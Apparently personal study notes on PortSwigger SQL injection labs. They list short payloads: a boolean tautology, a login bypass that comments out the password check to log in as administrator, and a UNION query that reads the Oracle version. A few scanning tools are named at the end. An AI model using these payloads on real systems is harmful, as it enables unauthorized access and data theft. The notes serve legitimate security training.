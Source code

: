 ## portswigger labs
### 1 lab
- <span style="color:#00b050">'+OR+1=1--</span>    <= this is the first payload. try to change the ' to " and try again
### 2 lab

- if you trying to attack a <span style="color:#ffff00">login</span> page .try the payload in the username
```sql
SELECT * FROM `users` WHERE username='username' AND password= 'password';
```
if the payload set;
```sql
SELECT * FROM `users` WHERE username='administrator'-- ' AND password='';
```

### 3 lab
- to display the database version of a oracle database (use hack-tricks for this)
```sql
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

nuclei
sqlmap
amass
docker